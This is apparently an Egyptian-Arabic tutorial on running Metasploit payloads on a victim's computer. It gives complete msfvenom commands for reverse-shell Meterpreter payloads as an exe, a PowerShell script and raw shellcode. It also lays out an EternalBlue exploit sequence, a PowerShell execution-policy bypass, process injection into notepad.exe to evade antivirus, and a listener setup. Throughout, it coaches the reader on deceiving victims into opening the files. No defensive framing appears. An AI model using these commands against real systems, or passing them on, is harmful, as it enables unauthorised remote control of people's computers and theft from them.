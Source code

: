 # **🔹 تشغيل الـ Payloads على أجهزة الضحية ببساطة 🔹**

## **📌 يعني إيه تشغيل أو تنفيذ الـ Payload؟**

✅ الـ **Payload** هو الكود اللي بيشتغل على جهاز الضحية **علشان يفتح لك جلسة تحكم (Session)**.  
✅ بعد ما تولده بـ **MSFVenom**، لازم **تنقله لجهاز الضحية وتشغّله** علشان تقدر تسيطر عليه.  
✅ تشغيله بيتم بطرق كتير، حسب **نظام التشغيل ومستوى الحماية على الجهاز المستهدف**.

---

## **🔥 طرق تشغيل الـ Payload على جهاز الضحية**

### **🟢 1. التشغيل اليدوي (Manual Execution)**

💡 ده أسهل وأوضح طريقة: إنك **تخدع الضحية وتحسّسه إن الملف طبيعي** ويشغله بنفسه!  
✅ مثال: توليد ملف تنفيذي للويندوز (`exe`) وتشغيله مباشرة.

**🔹 خطوات التنفيذ:**  
1️⃣ توليد الـ Payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

2️⃣ **إرساله للضحية** عن طريق:

- **USB / Flash Memory** 🖥️
- **رفع الملف لموقع وإرسال الرابط للضحية** 🌍
- **إرفاقه في بريد إلكتروني / ملف مضغوط** 📧

3️⃣ لما الضحية يشغّله، الجلسة هتبدأ عندك في **Metasploit**.

---

### **🟢 2. التشغيل التلقائي بعد الاستغلال (Auto Execution via Exploit)**

✅ الطريقة دي بتستخدم ثغرة في النظام علشان تشغل الـ Payload تلقائيًا **بدون تدخل الضحية**.  
✅ مثال: استغلال ثغرة **EternalBlue (MS17-010)** علشان تنفيذ الـ Payload مباشرة.

**🔹 خطوات التنفيذ:**  
1️⃣ تشغيل Metasploit واختيار الـ Exploit:

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
```

2️⃣ تحديد الهدف والـ Payload:

```bash
set RHOSTS 192.168.1.50  # عنوان الضحية
set LHOST 192.168.1.100  # عنوان جهازك
set PAYLOAD windows/meterpreter/reverse_tcp
```

3️⃣ تشغيل الهجوم:

```bash
exploit
```

🎯 بمجرد نجاح الهجوم، الـ Payload هيشتغل عند الضحية **تلقائيًا** وهيوصلك جلسة تحكم (Meterpreter).

---

### **🟢 3. التشغيل عبر مستندات أو سكريبتات خبيثة**

✅ هنا بنحاول **نخدع الضحية** باستخدام ملف غير تنفيذي (`exe`) علشان ما يشكش فيه.  
✅ أشهر الطرق:

- **ملفات Word أو Excel** 🎯 باستخدام **ماكرو VBA**
- **ملفات PDF خبيثة** 📄
- **سكريبتات Python أو PowerShell**

**🔹 مثال: تشغيل Payload عبر PowerShell (بدون ملفات exe!)**  
1️⃣ توليد كود PowerShell لتشغيل Meterpreter:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh > payload.ps1
```

2️⃣ إرساله للضحية في شكل أمر **يعمل في الخلفية**:

```powershell
powershell -ExecutionPolicy Bypass -File payload.ps1
```

🎯 بمجرد تشغيل الأمر ده على جهاز الضحية، هتوصلك جلسة Meterpreter **بدون ما يفتح أي ملف تنفيذي مشبوه!** 🔥

---

### **🟢 4. تشغيل الـ Payload مع برامج نظيفة (Process Injection)**

✅ الفكرة هنا إنك **تخفي الـ Payload جوا عملية نظيفة** شغالة عند الضحية، زي **explorer.exe أو notepad.exe**.  
✅ دي طريقة قوية جدًا علشان **تخطي الحماية والـ Antivirus**!

**🔹 مثال: حقن الـ Payload داخل عملية شغالة:**  
1️⃣ توليد الـ Payload على هيئة Shellcode:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shellcode.bin
```

2️⃣ استخدام **أداة مثل `inject.exe`** لحقن الـ Payload في **Notepad.exe** عند الضحية:

```bash
inject.exe -p shellcode.bin -t notepad.exe
```

🎯 **بكده الـ Payload هيشتغل جوا عملية نظامية، صعب على الـ Antivirus يكتشفها!** 🔥

---

## **💡 الخلاصة بالمصري:**

1️⃣ لازم **تنقل الـ Payload** لجهاز الضحية بأي طريقة (يدويًا، استغلال ثغرة، مستند خبيث، حقن في عملية).  
2️⃣ **أفضل الطرق لتشغيله:**

- الضحية يشغله بنفسه ✅
- استغلال ثغرة تشغله تلقائيًا ✅
- تشغيله جوا مستند Word أو PowerShell ✅
- حقنه جوا برنامج نظيف زي **explorer.exe** ✅  
    3️⃣ **كل ما كان الـ Payload مخفي أكتر، كل ما فرص نجاحه زادت.**

---

## **🛠️ خطوات عملية لتشغيل الـ Payload بنجاح:**

✅ **1. توليد الـ Payload بالطريقة المناسبة**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > bypass.exe
```

✅ **2. نقل الملف للضحية بذكاء (بدون ما يشك)**:

- رفعه في **موقع تخزين سحابي** (Google Drive أو Dropbox).
- إرساله كـ **ملف مضغوط بكلمة مرور**.
- استخدام **هندسة اجتماعية** علشان الضحية يفتحه.

✅ **3. تشغيل Metasploit لاستقبال الجلسة:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على جهاز الضحية، هتوصلك جلسة تحكم كاملة!** 🚀🔥